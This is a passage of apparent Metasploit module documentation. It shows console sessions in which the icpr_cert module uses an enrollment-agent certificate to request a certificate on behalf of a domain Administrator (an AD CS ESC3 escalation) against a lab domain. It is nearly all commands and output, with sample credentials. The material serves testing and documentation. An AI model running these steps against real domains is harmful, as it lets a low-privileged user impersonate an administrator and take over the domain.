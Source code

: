 ```
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normaluser                      no        The password for the specified username
   SMBUser        normal                          no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174559_default_unknown_windows.ad.cs_570105.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Just to show this is also possible with `ESC3-Template2` here is a snippet showing that also works:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template2
CERT_TEMPLATE => ESC3-Template2
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template2                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216174221_default_unknown_win
                  dows.ad.cs_027866.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
```